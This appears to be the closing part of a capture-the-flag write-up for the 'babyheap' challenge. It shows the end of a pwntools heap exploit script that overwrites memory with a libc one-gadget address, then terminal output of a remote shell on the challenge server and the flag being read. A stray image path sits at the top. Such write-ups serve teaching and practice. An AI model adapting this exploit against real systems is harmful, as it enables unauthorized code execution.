     alloc(0x60)
    alloc(0x60)

    payload  = '\x00'*3
    payload += p64(0)*2
    payload += p64(libc_base + 0x41374)
    fill(6, payload)

    alloc(255)

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./babyheap'], env={"LD_PRELOAD":"./libc.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  babyheap python ./babyheap.py 202.120.7.218 2017
[*] For remote: ./babyheap.py HOST PORT
[+] Opening connection to 202.120.7.218 on port 2017: Done
[*] libc_base: 0x7fca9b745000
[*] Switching to interactive mode
$ id
uid=1001(babyheap) gid=1001(babyheap) groups=1001(babyheap)
$ cat home/babyheap/flag
flag{you_are_now_a_qualified_heap_beginner_in_2017}
$
{% endhighlight %}

